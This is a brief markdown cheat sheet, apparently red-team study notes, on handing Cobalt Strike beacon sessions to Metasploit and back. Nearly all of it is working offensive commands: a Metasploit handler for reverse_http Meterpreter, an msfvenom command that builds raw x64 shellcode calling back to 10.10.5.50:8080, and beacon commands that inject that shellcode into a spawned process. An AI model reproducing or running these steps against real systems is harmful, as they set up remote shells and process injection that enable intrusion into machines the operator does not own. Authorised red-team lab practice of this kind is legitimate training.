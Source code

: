 # Session Passing Notes

The spawn command will spawn an x86 or x64 process and inject shellcode for the specified listener into it.
```
spawn x64 http
```

## Foreign Listener

using msf
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST ens5
set LPORT 8080
run
```

In CS
- Create a new Foreign HTTP listener with same host and port as above

Now we can use spawn, jump, or elevate with this listener

## Spawn and Inject

in msf with the above 
```
set payload windows/x64/meterpreter_reverse_http
set LHOST 10.10.5.50
set LPORT 8080
run
```

Make msfvenom payload
```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
```

In CS beacon, this will create a callback for msf
```
shspawn x64 C:\Payloads\msf_http_x64.bin
```
